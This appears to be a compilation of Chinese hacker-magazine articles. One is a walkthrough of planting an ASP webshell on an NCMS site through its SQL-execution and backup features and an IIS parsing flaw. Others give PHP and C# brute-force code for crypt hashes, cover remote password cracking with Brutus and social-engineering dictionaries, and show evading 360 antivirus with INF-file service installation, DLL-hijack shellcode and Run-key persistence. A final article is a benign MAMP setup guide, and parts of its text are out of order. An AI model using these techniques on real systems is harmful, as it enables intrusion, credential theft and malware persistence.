

图1

立马在网上搜索了下这款CMS，并没有找到相关的漏洞信息，看来人气不高。很轻松地下载到源代码，其默认路径为“/database/#ncms.mdb”，试试看默认的数据库地址是否没有更改。将“#”改为“%23”，登录后台成功，有个类似ASP探针的小功能，Web物理路径显示出来了，为“E:\wwwroot\seo\***\”。翻了翻后台，有数据库备份功能，但在数据库中发现有NOTDOWN表，猜测即使备份成ASP也运行不了。

在“辅助功能”下有执行SQL语句的功能，马上测试了一下，提示执行成功，但无法返回执行成功的结果。前面通过ASP探针获得了Web的物理路径，来尝试下导出WebShell。其原理很简单，就是将在数据库中查询到的结果保存到一文件中。文件导出在Access中不是很流行，我们遇到的多是在MySQL，root权限下用“select *** into outfile 'd:/web/shell.php'”获得WebShell。Access下之所以不流行，是因为利用Access作为数据库开发的网站中，提供SQL语句执行功能并不常见，而且文件导出需要获得网站物理路径，再加上微软出于安全与其它一些方面的考虑，文件导出格式是有限制的，像asp、asa等无法导出成功。前段时间爆出了Win下文件类型的一个bug，如“fj.asp;hh.txt”会被当成asp解析，这下我们就可以利用之获得WebShell了。

```sql
SELECT * into [fj.asp;hh.txt] in 'E:\wwwroot\seo\***\' 'text;' from NCMS_admin
```

成功（如图2），但访问 fj.asp;hh.txt 却显示404错误。


图2



图3

在下载到的代码中找到了执行SQL语句的函数，并没有发现函数对导出的文件名有任何判断与过滤。

```vb
sub executesql
    dim content: content = gfv("content")
    gfv函数：gfv = request.form(str)
    on error resume next
    ' 容错语句，如出现错误忽略错误，继续执行
    conn.begintrans
    conn.execute(content)
    if err.number <> 0 then
        err.clear
        conn.rollback
        conn.close:set conn=nothing
        call alertbox("抱歉!sql语句输入错误!",2)
    else
        conn.committrans
        conn.close:set conn=nothing
        call alertbox("恭喜!sql语句执行完毕!",2)
    end if
end sub
```

```vb
call alertbox("恭喜!sql语句执行完毕!",2)
end if
end sub
```

那为什么会导出不成功呢？会不会是服务器上运行有特殊杀软或其它BT的设置？继续看后台的各功能，不支持文件上传，但“数据库备份”可以生成新文件夹（如图3）。

从图中，我们可以看到，系统提供的数据库备份与我们以前遇到的有些区别，这里都是填写文件路径，无需填写文件名。这就奇怪了，难道系统会自动获取路径下的文件？幸好下载到了源码，相关的实现代码如下：

```vb
sub backup
    dim sFolder: sFolder = trim(gfv("sFolder"))
    dim dFolder: dFolder = trim(gfv("dFolder"))
    if sFolder = "" or dFolder = "" then
        call alertbox("抱歉!路径必须填写",2)
    else
        call createdir(server.mappath("/" & dFolder & "/"))
        call movefiles(sFolder,dFolder)
        call alertbox("恭喜!数据库备份成功!\n\n建议使用FTP下载保存备份数据,以防万一!",2)
    end if
end sub

function movefiles(sFolder,dFolder)
    on error resume next
    dim fso
    set fso = server.createobject("scripting.filesystemobject")
    if fso.folderexists(server.mappath(sFolder)) and fso.folderexists(server.mappath(dFolder)) then
        fso.copyfolder server.mappath(sFolder),server.mappath(dFolder)
        movefiles = true
    else
        movefiles = false
        set fso = nothing
        call alertbox("系统没有找到指定的路径[" & sFolder & "]!",2)
    end if
```

```vb
Function createdir(sPATH)
  dim fso, pathArr, i, pathLevel, pathTmp, cPATH
  on error resume next
  sPATH = replace(sPATH,"\\","/")
  set fso = server.createobject("scripting.filesystemobject")
  pathArr = split(sPATH,"/")
  pathLevel = ubound(pathArr)
  for i = 0 to pathLevel
    if i = 0 then
      pathTmp = pathArr(0) & "/"
    else
      pathTmp = pathTmp & pathArr(i) & "/"
    end if
    cPATH = left(pathTmp,len(pathTmp)-1)
    if not fso.folderexists(cPATH) then fso.createfolder(cPATH)
  next
  set fso = nothing
  if err.number <> 0 then
    err.clear
    createdir = false
  else
    createdir = true
  end if
End Function
```

在定义的backup过程中，先判断“当前数据库路径”和“备份数据库路径”是否填写；如“备份数据库路径”中的文件夹不存在，则调用createdir函数来创建文件。

数据库备份是利用movefiles函数将“当前数据库路径”下所有文件复制到“备份数据库路径”下，由于只是简单的复制，并不提供对备份成功后文件的更名功能。

思考了一下：既然能生成新文件夹，那我们可以生成一个“fj2.asp”的文件夹，再用“执行SQL语句”功能将文件导出其中，而IIS 6.0会将“*.asp”文件夹下的文件当成asp解析。测试过程如下。

```sql
insert into NCMS_admin(uname,upass,scode,addtime)
values('11','<%eval request(chr(35))%>','22',now());

SELECT * into [test.txt] in 'E:\wwwroot\seo\***\fj2.asp\' 'text;' from NCMS_admin
```

顺利获得WebShell（如图4）。


图4

最后，很是迷茫为什么直接导出为“fj.asp;h.txt”会提示文件不存在，难道此服务器已修补了该漏洞？本着对“真理”的无限探索，一番测试后终于明白原因（如图5）：服务器修复了文件解析漏洞，将“;”更改为下划线。



图5

> （文章中所涉及到的NCMS v1.3.0[1]已收录在光盘中）

## Php crypt函数特征三种破解方法

### 一、php crypt函数

为保证密码的强度，php一般采用crypt函数对用户密码进行加密。就算破解网站后台、进入数据库，因为crypt函数采用不可逆算法（12位干扰字符串加22位MD5字符串），得到加密后的字符串也无法逆推出原密码，因此确保了用户密码的安全性。调用形式如：`crypt(输入的密码，数据库的加密字符串)` == 数据库的加密字符串。

### 二、破解crypt函数的一些实际做法

既然crypt采用不可逆算法，是否就真的不可能被解密码呢？其实不然，在密码强度不大的情况下可尝试以下几种方法：

- 1. 更换法

用已知原密码的字符串取代数据库的加密字符串，例如：密码为123456的加密字符串为：`$1$4n/.5G2.$I.KjaYax2ZUflaJ7.4lX00.`

- 2. php大马暴力破解（数字型密码）

上传php大马，运行php代码，暴力破解（9位以下数字密码，9位以上密码运行时间较长）。思路是采用crypt函数逐一校对数字加密后是否与密码串相同，如果相同，则密码找到并显示。具体代码如下：

```php
<?php
$pwd='$1$8j/V2/$jWXCSBobATofZVbAasHgM...';
//这里是要破解的加密字符串
for($i=100000;$i<1000000000000;$i++){
    if(crypt($i,$pwd)==$pwd){
        printf("password is %d",$i);
        break;
    }
}
if($i==1000000000000){
    printf("not find password");
}
?>
```

- 3. C#程序破解

上面方法需要具体的php运行环境，而php环境的配置还是比较麻烦的，用C#可编写出暴力破解程序。思路是：调用php5ts.dll的输出函数crypt，对密码逐一暴力破解。具体代码如下，运行环境：Windows XP Visual Studio 2010。

```csharp
using System.Runtime.InteropServices;
//所要包含的文件
```

```csharp
namespace _4_03
{
    public partial class Form1 : Form
    {
        public class phpcrypt
        {
            [DllImport("php5ts.dll", EntryPoint="crypt")]
            public static extern string crypt(string x, string y);
        }

        private void button1_Click(object sender, EventArgs e)
        {
            DateTime d1 = DateTime.Now;
            textBox1.Text = "";
            button1.Enabled = false;
            string pass = textBox2.Text;
            for (i = 100000; i < 1000000000000; i++)
            {
                if (phpcrypt.crypt(Convert.ToString(i), pass) == pass)
                {
                    textBox1.Text = Convert.ToString(i);
                    break;
                }
            }
            if (i == 1000000000000)
            {
                textBox1.Text = "not find password";
            }
            button1.Enabled = true;
            DateTime d2 = DateTime.Now;
            label4.Text = Convert.ToString(d2 - d1);
        }
    }
}
```

> （本文所涉及的代码和关联文件光盘已收录）

## 暴破与字典之浅见

年晓东

“暴破”，非“爆破”也，是“暴力破解”的简称。虽然从名字上看，它似乎非常给力，但说白了，暴破其实就是一个极其机械式的循环测试过程——通过调用相关的“字典”文件来逐一对目标进行登录测试实验，直到成功为止。当然，此“字典”也非“新华字典”，它里面存放的是若干种数字、大小写字母甚至是一些特殊符号的排列组合，充当的角色是暴破的“炸药”。

最初的暴破大部分都是针对于软件的注册码破解的，目的是找出对应的注册码，但如今暴破的范围则早已倾向于Internet上的远程入侵Web网站、FTP和POP3邮箱账号的猜解等。以远程暴破Nt-Server账号密码为例，著名的扫描软件X-Scan本身自带了几个字典文件，其中就包含有许多大众化的弱口令字典（像“123456”“888888”“administrator”等），可以用来对目标账号的口令进行暴破。再以近几年最为流行的网站注入为例，像“啊D”“明小子”也都自带了包含诸如“/upfile.asp”“/manage.asp”和“/admin/ad_login.asp”之类字符串内容的字典，用于对目标网站后台路径的猜解暴破。从某一程度上讲，这些入侵检测工具都是“活”的，就像是小孩子玩儿的积木玩具一样，我们可以根据实际情况给工具挂接上针对性极强的最给力的字典，从而让它发挥出更大的威力。

以针对Windows的远程密码破解软件Brutus为例（可以破解HTTP、FTP、POP3、Telnet、SMB等密码），运行其主程序BrutusA2.exe，前面的目标（target）IP、类型（Type）等必要选项都设置好之后，在中间的身份验证（Authentication Options）处选择待破解的账号字典（User File）和密码字典（Pass File），可以分别点击其后的浏览（Browse）按钮来选择对应的字典。如图1；BrutusA2默认的账号字典是users.txt、密码字典是words.txt，最后就是点击右上方的开始（Start）按钮来进行暴破了。

一般我们可以直接从网上下载“100多万个国人名字拼音字典”“常见的英文单词字典”或是“生日1980-2010年”之类的现成压缩包字典文件，将解压缩后得到的.txt类型字典存放于BrutusA2目录中，便于在BrutusA2中调用。当然，我们也可以选择一些能够生成字典文件的工具软件来自行“生产”字典，比如“易优”“木头”和“黑刀”等超级字典生成器。不过，针对于目前非常热门的“社工”（利用社会工程学来入侵），还是建议大家试用一下ncphpass（N.C.P.H社会工程学字典），与BrutusA2一样，“N.C.P.H社会工程学字典”也是一个绿色小巧的软件，直接双击运行即可。在主界面中，软件要求我们填入“用户名”“用户出生日期”“用户邮箱名”和“用户QQ号”等信息，当然也有“女友/妻子电话”“女友/妻子网名”和“用户最好的朋友名”等更为详细的信息，如图2。收集填入的信息越多，理论上最终暴破密码的几率就越大。即使这些信息都不填写的话，该字典生成工具也能生成一个常规字典，不过这样就失去了使用它的意义了。

当所有收集信息都填写完毕之后，我们只需点击最下面的“生成密码字典”按钮即可快速生成一个四五KB大小的pass.txt类型字典文件。与所有字典文件一样，每个密码单独占一行，大约有390多个。

现在，暴破的流程就应该是这个样子的：首先是收集对方网管的各种信息（名称、邮箱、QQ号等），甚至可以详细到其女友或宠物等等；然后使用“N.C.P.H社会工程学字典”生成一个极具针对性的给力字典；最后，将字典挂接到BrutusA2之类的工具上实施暴破！哦了！！


图1


图2

（本文所涉及的软件brutus光盘已收录）

## 系统、注册表、INF 又高又硬！

随着杀软主动防御的普及，木马常见的启动方式，甚至可疑的行为，在其运行后很快就会被拦截。但是攻防中往往使反病毒技术和免杀技术双方都得到了很大的提高。拿 360 的主动防御来说，虽然强悍并且敏感，但是也是根据人的意愿而定义的一套规则罢了，这也代表着肯定有某些地方有所遗漏。

```ini
Signature="$CHICAGO$"

[DefaultInstall]
DelReg=Gc

[Gc]
HKCU,"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System","DisableRegistryTools",0x00010001,"1"
```

前几年利用 autorun.inf 来感染各个磁盘的根目录，使其双击即可达到运行指定木马的效果。对黑客技术好探究明白的人肯定会认真研究后缀名 inf 的文件到底是何方神圣，如果你还不清楚 INF 文件的具体信息，看其百度百科里的介绍就会一目了然。其实 INF 文件也可以帮我们构建一条桥梁逃脱主动防御的监测，具体体现在通过此种文件对注册表的操作是不会有任何提示的（写 Run 除外），这里以写木马常见的服务启动作为例子。在 C 盘根目录下创建一个 inst.inf 文件，内容如下所示：

有人肯定厌烦去学习新的理论，所以就用一个工具来解决从 REG 文件到 INF 文件的转变。这个工具的使用类似我们在 EXE、BAT、VBS 转换的那些工具，如图 2。

```ini
[Version]
Signature="$WINDOWS NT$"

[DefaultInstall.Services]
AddService=SWAN,,Add_Evil_Service ; 服务名称

[Add_Evil_Service]
DisplayName=SWAN ; 显示名称
Description=Tested By SWAN ; 服务描述
ServiceType=0x10 ; 服务类型
StartType=2 ; 启动类型
ErrorControl=0 ; 错误控制
ServiceBinary=C:\Windows\360safe.exe ; 服务要加载的 exe 文件路径
```


一般情况下，我们在安装 INF 文件的时候，都会在右键选择“安装”。其实 CMD 模式下的命令也是有的，命令如下：`rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:\inst.inf`，如图 1。

如果证明通过 INF 文件操作注册表可以逃避 360 主动防御的监测，那么以前有害于 360 软件的行为如镜像劫持，不就是死灰复燃啊。其实不仅这样，学习了这种技术，说不定哪一天注册表被禁用，CMD 也被禁用，这个时候利用一个小小的 INF 文件就可以解决，代码如下：

```ini
[Version]
```



其实从中我们可以很容易得出一个结论：360 主动防御监控最在意的是谁干了什么，然后是干了什么。如果是自己认为安全的文件对系统、对注册表做了修改，肯定不会拦截。INF 不被监视的原因估计在于调动的文件是系统文件 rundll32.exe，不在其关注的范畴；反而通过 CMD、REG、VBS 等方式早就被盯上了，不容易逃过其法眼。反而言之，我们利用一个文件是 360 认可的，确切地说是真 MD5 值、是真具备的，而且是有名的软件所调动，就不会被拦截。从我们的日常情况就可以知道这个理论是正确的，如迅雷等具有知名度的软件所做出的修改注册表的行为都是被允许的，可以知道。当然也可以从 360 对其竞争对手（如金山、可牛）的拦截情况作为旁证。这个时候，一个对 360 比较邪恶的方法就可以用来操作注册表并被默认为允许修改。

```bat
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v numa /d "C:\Program Files\Help...\numa.exe" /f
md "C:\Program Files\Help...\"
copy numa.exe "C:\Program Files\Help\numa.exe"
```

这个方法似乎在某些网站上也有人提出过：先找一个皮皮播放器一类的软件，因为数据库里面有 PIPIPlayer.exe 的 MD5，所以进行敏感操作的时候不会提示未知。PIPI-Player.exe 需要一个运行库 MFC71.dll，我将 MFC71.dll 用 OD 载入，找空白区域写入：

如果一切按理论进行的话，你可以清晰地看到，利用被认可的软件修改注册表是被 360 允许这铁一般的事实，如图 3。

```asm
ASCII "ie.bat",0
DB 00
PUSH 0
NOP
PUSH MFC71.7C21CF30
CALL Kernel32.WinExec
JMP MFC71.7C14F41A
```


图 3

反汇编不是很熟练的话，要重新复习以前《黑 X》里有关 DLL 劫持的文章哦。我们这里是创建一个 ie.bat，它可以进行敏感的操作，例如添加服务、添加启动项、修改首页等。注意，添加启动项时候要先添加，再将程序复制到添加的路径，直接添加还是会提示未知的。ie.bat 的内容如下：

总结：360 主动防御的出现，一方面要阻止恶意软件的运行，但一方面又要考虑一些正常软件一定会修改注册表的现实，所以就制定了注定的“白名单”规则，不关注白名单里软件的行为，而关注那些不被认识，甚至可以说是 MD5 值数据库根本没有的文件对系统的操作。（确切地说只能追不得已执行，更在乎的是文件本身，要不然那些迅雷更改注册表不是敏感得要死。）但是这种方法出现一个漏洞：如果这个文件既不是白名单文件，又不是被关注的文件，并且是系统文件，那么就容易逃脱法眼的监测。

> （本文所涉及的相关文件光盘已收录）

## 手动配置 MAMP 环境手记

现在，用 Mac 的同志越来越多，很多像我一样有探索精神的友子们都拥有了 Mac。但是，那个该死的 PHP 却怎么也调不出来，无法安装。网上的安装方法也不详尽，大体可分为以下几类：

- 1. 将就凑合型：就是用 Mac 自带的 Apache 和 PHP。当然，得经过一番调试。弊端很明显，Apache 和 PHP 的版本都很旧，而且不能更新，这是很麻烦的。
- 2. 整体打包型：这种方法就是用现成的套件（记得 Windows 下的 XAMPP 和 WAMP 吗？），虽然我们可以得到较新的版本，但我们自己不能灵活控制一些选项，这也不符合我们的探索精神。

我这次给大家介绍的是手动配置 Apache+PHP+MySQL，让大家体验手工的乐趣，嫌麻烦的请直接跳过。

### 一、阅读前的一些注意事项

- 1. 本文章是以安装手记的形式展开叙述，会将遇到的各种问题一一解释，文章中写的就是我安装的步骤。
- 2. 行文的过程中可能需要一些软件，这里就不统一介绍了。
- 3. 本文适用环境：安装有最新 Mac 系统的标准 Mac 机，黑苹果不在此列。服务器版系统我没接触过，不保证好用。
- 4. 本文搭建的环境只适用于测试学习之用，请勿按照本文方法搭建真实的服务器并在网上运营，否则你会死得很惨。切记！

### 二、总体过程

一共三大件，Apache、MySQL 和 PHP。其中 Apache 和 PHP 是需要手工编译的，MySQL 官方提供安装版。PHP 要和 Apache、MySQL 搭配，显然得先装 Apache 和 MySQL。本着先易后难的原则，定下安装顺序：MySQL、Apache、PHP。

再来说说如何手工编译的问题。众所周知，Mac 是基于 Unix 内核的，Unix 的开源软件编译有 3 步（这个一会再介绍）。熟悉 Unix 的朋友可能此时已经看不下去，兴冲冲地抄起源代码开始编译了。可是他也死得很惨，原因是 Mac 上没有编译环境。但是如果编译环境本身需要编译，那就成了一个笑话。事实上，苹果有一套编译环境，就是没安装，它就是……（卖个关子）。

### 三、详细安装步骤

- 1. 更新系统

像我这次为了写这篇文章，专门新装了一个 Snow Leopard，更新一下。这个大家肯定都会（如图 1、2）。


### 2. 进行准备

首先安装编译环境，它的名字是 Xcode，安装文件在安装盘里（如图 3）。但是这个版本不够新，最新版本在苹果网站上，三个多 G，有兴趣的自己慢慢拖下来（如图 4）。由于我足够有兴趣，所以我下了下来开始安装。一路下一步就 OK 了，就是得耐心等待。


其次打开 root 账户，因为 root 是实际存在的用户，拥有最高权限。Mac 为了安全，锁定了这个账户。现在我们需要打开它。找到系统偏好设置，选“账户”，点“登录选项”→“加入”→“打开目录实用工具”（如图 5）。在目录实用工具中点解锁，设置密码，点“好”（如图 6）。


图 6

找到编辑菜单，选取“编辑→启用 root 用户”，然后在“密码及验证”栏内输入 root 密码，点“好”（如图 7）。


图 7

然后切到 root 下：选择果菜单中的注销，就可以退回到登录界面，点其他，用户名输 root，密码输你刚才设的密码（我就不截图了）登录到 root 下。**警告：在 root 下工作有风险，请不要乱改乱删，否则会引起严重后果。**

接着在实用工具里打开终端，输入以下命令（注意大小写）：

```bash
defaults write com.apple.finder AppleShowAllFiles -bool true
killall Finder
```

这时 Finder 里出现了许多隐藏文件，准备工作基本完毕。

### 3. 安装 MySQL

打开 Safari：浏览 http://www.mysql.com/downloads/mysql/ ，找到 Mac OS X ver. 10.6 (x86, 64-bit) DMG Archive，选 Download（如图 8）。（如果你的 Mac 是 32 位，就找 32-bit。）提示要注册，选“No thanks, just take me to the downloads!”然后会出现镜像列表，把页面向下拉，就会看到台湾的镜像服务器（这里就得看你的网络了），点“HTTP”或“FTP”把文件拖下来。装载镜像后，依次安装（如图 9）。安装第 3 个的时候出现（如图 10）的提示，请选择第二项。装完后，在系统偏好设置里会出现 MySQL 的项目，但是点 start MySQL Server 是不好使的。这是为什么呢？是因为 MySQL 得经过一番设置才可以使用的。


图 8


图 9


图 10

打开终端，输入：

```bash
cd /etc
nano my.cnf
```

（如图 11）


图 11

再输入：

```ini
[mysqld]
user=_mysql
basedir=/usr/local/mysql
```

（如图 12）


按 ^X，选 Y，按回车。这时，再到系统偏好设置中 MySQL 面板，是不是好使了？但此时你仍然无法链接，关掉 MySQL。打开 Finder，找到菜单中的“前往→前往文件夹”，输入：`/usr/local/mysql-5.5.8-osx10.6-x86_64/data/`，找到 mysql，删除之。在终端里执行：

```bash
cd /usr/local/mysql
scripts/mysql_install_db
```

打开 MySQL，执行：

```bash
bin/mysql_secure_installation
```

按提示操作：按回车（原密码为空），输入 y 并回车（确认设置新密码），输入两遍密码，输入 y 并回车（移除匿名账号），输入 y 并回车（禁止远程登录 root），输入 y 并回车（删除 test 库），输入 y 并回车（重新加载设置）。OK！这时，MySQL 安装完毕。（如图 13、14）

### 尚须注意的问题

- 1. root 账号是系统最高权限（类似于 Windows 下 System），密码一定要设置好，平时工作不要用 root，以防对系统造成破坏。
- 2. MySQL 中的 root 代表 MySQL 中的最高权限，请对这两个 root 进行区分，不要混淆。


### 尚待解决的问题

- 1. mysql 的 root 密码问题。按照官方的说法，安装 MySQL 时会自动创建数据库结构，即会自动调用 `scripts/mysql_install_db` 脚本。当我们安装完毕后（就是手动配置 my.cnf 后），虽然 MySQL 能启动，并且关键的数据库已经建立；但我们发现，MySQL 中的 root 账号已经有了密码（如图 15），而按照官方说法 root 密码应该为空，这是很奇怪的问题。为了避免此类问题，需要进一步排查安装流程。
- mysql 库删掉，重新建立。这个密码到底是什么？此时如果不重建 mysql 库，应该怎样登录？这都是需要思考的问题。
- （2）mysql 自动启动的问题。同样按照官方的说法，我让大家装的第二个安装包就是靠自启动的。但事实上 mysql 并没有自动启动，启动时出现（如图 16）的提示，还是十分纠结的。系统偏好设置的 mysql 面板上的那个复选框也是不管用的。我试了很多方法都不起作用（可能是我对 Mac 系统了解不够深入），所以只好作罢，留给大家解决。

```bash
cd /httpd-2.2.17/
./configure --prefix=/usr/local/apache2
make
make install

cd /usr/local/apache2
./bin/apachectl -k start
```

打开 Safari，浏览 http://localhost （如图 20），安装完毕。


### 4. 安装 Apache

可算安装完了，喝杯咖啡，继续装 Apache（仍然在 root 下）。


将就凑合型是怎么装的？对！是利用已有的 Apache 装的，我们现在要自己动手，就应该把 Mac 自带的删掉。打开 Finder，找到菜单中的“前往→前往文件夹”，输入 /usr/sbin，找到以下文件：ab、apachectl、apxs、htpasswd、httpd，扔到废纸篓里。同理，前往 /etc，把 apache2 扔掉。再前往 /usr/libexec，把 apache2 扔掉。清倒废纸篓（如图 17）。

### 5. 安装 PHP

安装 PHP 需要随时安装额外软件，安装比较麻烦。仍然打开 Safari，浏览 http://www.php.net/downloads.php ，找到最新版本（如图 21），选个镜像，拖回来。解压开，还是源码，把源码 copy 到根目录下。


打开 Safari，浏览 http://httpd.apache.org/download.cgi ，找到最新版本（不要测试版，如图 18），拖回来。我这里以 2.2.17 为例。解压开，得到源码，把源码 copy 到根目录下。

```bash
cd /php-5.3.5
./configure --prefix=/usr/local/php --with-apxs2=/usr/local/apache2/bin/apxs --enable-mbstring --enable-mbregex --without-iconv --with-ldap=/usr --with-kerberos=/usr --enable-cli --with-zlib-dir=/usr --enable-trans-sid --enable-exif --enable-ftp --enable-dbx --enable-sockets --with-iodbc=/usr --with-curl=/usr --with-config-file-path=/etc --sysconfdir=/private/etc --with-mysql-sock=/var/mysql --with-mysqli=/usr/local/mysql/bin/mysql_config --with-openssl=/usr --with-xsl=/usr --without-pear --with-gd=/usr/local/lib --with-png-dir=/usr --with-gif-dir=/usr --disable-simplexml
```

报错：`configure: error: libpng.(also) not found`，所以上网找 libpng，解压开，copy 出来，再开一个终端（在刚才的那个终端里按 command-N，新的以下简称终端 2，原来的简称终端 1）执行：

```bash
cp scripts/makefile.darwin makefile
make
make install
```

回到终端 1，重新执行 configure，还报错，这次是 gd 库找不到，那就安装 gd 库，下载 gd，拷贝好。切到终端 2，执行：

```bash
cd /gd-2.0.35/
./configure
make
make install
cp gd.h /usr/local/lib
```

回到终端 1，重新执行 configure，（台下齐呼：又报错了？）这回成功了（……），那就开始 make。这回把终端 2 关掉，在终端 1 执行：

```bash
make
make install
```

用 Finder 找到 `/usr/local/apache2/conf/`，编辑 httpd.conf，在后面加上：

```apache
AddType application/x-httpd-php .php
AddType application/x-httpd-php-source .phps
```

保存好，到终端里执行：

```bash
/usr/local/apache2/bin/apachectl -k start
```

OK 了，下面进行进一步的设置。

配置主目录：还是在 httpd.conf，找到 `DocumentRoot "/usr/local/apache2/htdocs"`，把里面的目录换成你自己的。再找：`<Directory "/usr/local/apache2/htdocs">`，按照说明，这里的目录应该和 DocumentRoot 一致，修改好。

配置首页：找到 `DirectoryIndex index.html`，这个就是查找主页的顺序，换成：`DirectoryIndex index.php, index.html`。存上，重启 Apache。

```bash
/usr/local/apache2/bin/apachectl -k restart
```

开始 enjoy 吧！

### 四、后记

- 1. 在安装 PHP 时，错误是一个接一个的，修改是不断的；出现问题不要气馁，可以 Google，也可以在论坛发帖求助；我会为大家尽力解答。
- 2. 如果想升级 PHP，直接下载新的，重新编译即可。如果想升级 Apache 或 MySQL，除了要按这个方法做之外，还应重新编译 PHP，而且要全新的源代码，不能是编译过的，切记。重新编译时那些小的组件（像 gd 等）就不用重新编译了。

